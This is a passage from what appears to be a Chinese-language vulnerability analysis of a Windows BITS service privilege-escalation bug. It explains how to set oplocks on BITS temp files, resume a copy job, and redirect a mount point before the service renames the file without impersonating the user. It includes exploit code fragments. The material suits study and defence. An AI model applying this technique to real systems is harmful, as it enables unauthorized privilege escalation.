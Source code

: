 这里给查找到的BITS创建的TMP文件上了一个oplock，这样就会把bait文件夹下面的TMP文件和对应的**workload文件夹下面的TMP文件进行同步**。

设置oplock通常通过 DeviceIoControl 的系统调用来进行，设置调用的状态 dwIoControlCode 为对应的OPLOCK值即可。

```
if (exclusive)
  `{`
    DeviceIoControl(g_hFile,
      FSCTL_REQUEST_OPLOCK_LEVEL_1,
      NULL, 0,
      NULL, 0,
      &amp;bytesReturned,
      &amp;g_o);
  `}`
  else
  `{`
    DeviceIoControl(g_hFile, FSCTL_REQUEST_OPLOCK,
      &amp;g_inputBuffer, sizeof(g_inputBuffer),
      &amp;g_outputBuffer, sizeof(g_outputBuffer),
      nullptr, &amp;g_o);
  `}`
```



## 调用Resume函数进行同步

调用 `CBitsCom::ResumeJob()` 函数之后，就会开始进行传输，将 `\\127.0.0.1\C$\Windows\System32\drivers\etc\hosts` 文件写到TMP文件当中，这个过程仍然是模拟用户进行的。

[![](https://p5.ssl.qhimg.com/t013b570d1572f2c486.png)](https://p5.ssl.qhimg.com/t013b570d1572f2c486.png)

从上图中可以看出，在开始往tmp文件中传输的时候依然还是模拟的user3用户

```
// --- Resume job ---
    hRes = pBackgrounCopyJob-&gt;Resume();
    if (FAILED(hRes))
    `{`
        wprintf(L"[-] IBackgroundCopyJob-&gt;Resume() failed. HRESULT=0x%08Xn", hRes);
        return BITSCOM_ERR_RESUMEJOB;
    `}`
```



## 创建挂载点

等待Oplock的触发，如果触发了Oplock，说明BITS服务的传输已经完成了。正准备对TMP文件进行重命名，这里是这个漏洞的关键位置所在。重命名的时候不会`impersonate`当前的用户，而是以服务本身的权限去执行的。

通过procmon可以看到当创建完挂载点之后进行重命名，也就是调用 `CreateFile` 的时候没有模拟当前的用户。这个时候在重命名之前重新挂载文件的位置就能在**重命名的时候**把创建的链接文件也同时一起移动。

[![](https://p1.ssl.qhimg.com/t01e7ebe04a4edb9be7.png)](https://p1.ssl.qhimg.com/t01e7ebe04a4edb9be7.png)
